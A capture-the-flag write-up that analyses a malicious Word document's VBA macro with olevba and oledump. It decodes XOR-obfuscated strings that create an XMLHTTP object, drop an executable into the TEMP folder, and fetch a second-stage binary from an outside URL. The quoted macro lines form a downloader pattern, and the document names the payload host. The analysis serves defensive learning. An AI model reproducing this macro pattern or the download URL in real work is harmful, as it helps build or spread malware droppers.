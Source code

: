 # Squid Game - Attacker 4

## Challenge Information
- **Challenge Name**: Squid Game - Attacker 4
- **Category**: Malware Analysis
- **Difficulty Level**: Hard

## Analysis Steps

1. Run the command:
```bash
olevba attacker4.doc
```
which will give all the content associated with `attacker4.doc`. Now look for the very first encoded string, which is at the line:
```vb
Set VPBCRFOQENN = CreateObject(XORI(Hextostring("3F34193F254049193F253A331522"), Hextostring("7267417269")))
```
This line suggests that an object is being created. Hence, to get the original string, convert the first hex string to bytes, XOR each byte with the corresponding byte of the second hex string (repeated cyclically), and convert the XOR result to text `MSXML2.XMLHTTP`.

2. The line in the content:
```vb
ZUWSBYDOTWV gGHBkj, Environ(XORI(Hextostring("3E200501"), Hextostring("6A654851714A64"))) & XORI(Hextostring("11371B0A00123918220E001668143516"), Hextostring("4D734243414671"))
```
suggests an `Environ` function, that retrieves the value of an environment variable. Hence, decode it and we will get `TEMP + \DYIATHUQLCW.exe`. Remove `\` to get the exact answer.

3. The directory into which the binary is being dropped in clearly mentioned in the above data `TEMP`.

4. The line:
```vb
gGHBkj = XORI(Hextostring("1C3B2404757F5B2826593D3F00277E102A7F1E3C7F16263E5A2A2811"), Hextostring("744F50"))
```
most probably represents the storing of some data, so lets just decode it and see what it gives: `http://gv-roth.de/js/bin.exe`. So, the second binary is `bin.exe`.

5. The full path from where the second binary was downloaded is `gv-roth.de/js/bin.exe`, after removing the `https` as required in the statement.

### Note
To answer all the question, you may first decode all the lines containing the word `XORI`, and then figure out all the answers easily. For this, run the command:
```bash
oledump.py attacker4.doc -s 7 -v | grep XORI
```
